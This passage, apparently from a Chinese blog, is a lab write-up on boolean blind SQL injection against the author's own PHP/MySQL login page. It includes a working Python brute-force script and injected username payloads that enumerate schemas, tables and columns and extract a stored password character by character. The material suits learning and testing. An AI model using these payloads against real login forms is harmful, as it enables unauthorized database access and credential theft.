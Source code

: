 ```html

?>
```
:::

![2](https://the0n3.top/medias/sql-blind/2.png)

我的数据库名`testdb`，先让语句可以正常运行。

用`substr`函数，一次截取结果中的一个字符，爆破这个字符，如果爆破到截取的字符时，`substr((select password from user where username='flag'),{i},1)='{s}'`为真，会返回`登录成功`

![1](https://the0n3.top/medias/sql-blind/1.png)

用本地phpstudy mysql速度非常慢，用虚拟机环境速度翻倍，这是什么原因？

![3](https://the0n3.top/medias/sql-blind/3.png)

```python
import requests
import time
import string
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-{}_'
flag = ""

url = "http://192.168.237.133/sql.php"
i = 1
start = time.time()
while True:
    for s in flags:
        data = {
        # 爆库
        # "username":f"99'or substr((select group_concat(schema_name) from information_schema.schemata),{i},1)='{s}'#",
        # 爆表
        # "username":f"99'or substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1)='{s}'#",
        # 爆字段
        # "username":f"99'or substr((select group_concat(column_name) from information_schema.columns where table_schema=database()),{i},1)='{s}'#",
        # 爆数据
        "username":f"99'or substr((select password from user where username='flag'),{i},1)='{s}'#",
        # 爆数据
        "password":'1'
        }
        resp = requests.post(url,data=data)
        end = time.time()
        if "登录成功" in resp.text:
            i += 1
            flag += s
            print(f"[#]------{flag}")
            break
        elif (end-start)>3:
            print("尽力啦尽力啦")
            exit()
```

